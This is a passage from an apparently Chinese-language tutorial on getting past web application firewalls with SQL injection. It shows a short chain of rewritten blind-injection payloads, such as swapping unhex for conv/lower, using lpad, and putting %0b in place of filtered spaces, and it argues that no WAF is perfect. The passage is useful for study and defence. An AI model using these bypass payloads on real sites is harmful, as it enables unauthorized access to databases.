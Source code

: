 ```
1 || substr(user,1,1) = unhex(61)　　=>   1 || substr(user,1,1) = lower(conv(11,10,36))
1 || substr(user,1,1) = lower(conv(11,10,36)) =>　　1 || lpad(user,7,1)
1 || lpad(user,7,1)　　=>　　1%0b||%0blpad(user,7,1)　　// ' ' Filtered 
```

从上面给出的示例来看没有绝对的过滤即便平时构建一个正常 SQL 语句的全部关键字都被过滤了我们也还是能找到 Bypass 的方法。普世的阳光和真理尚且照不到每一个角落人为构建出来的一个工具 WAF 就更加不可能尽善尽美了。我们可以相信 WAF 能为我们抵挡很多攻击但是绝不能百分之一百的依赖它就算它有着世上最为健全的规则它本身也是会存在缺陷的。

从前面到现在基本上每条注入语句中都有数字如果某查询的数据类型为字符串、或者做了严格限制数字要被和谐掉这就有点棘手了不过办法总是有的

![2014022614064414576_png.jpg](img/img4_u71_jpg.jpg)

![2014022614071092308_png.jpg](img/img5_u75_jpg.jpg)
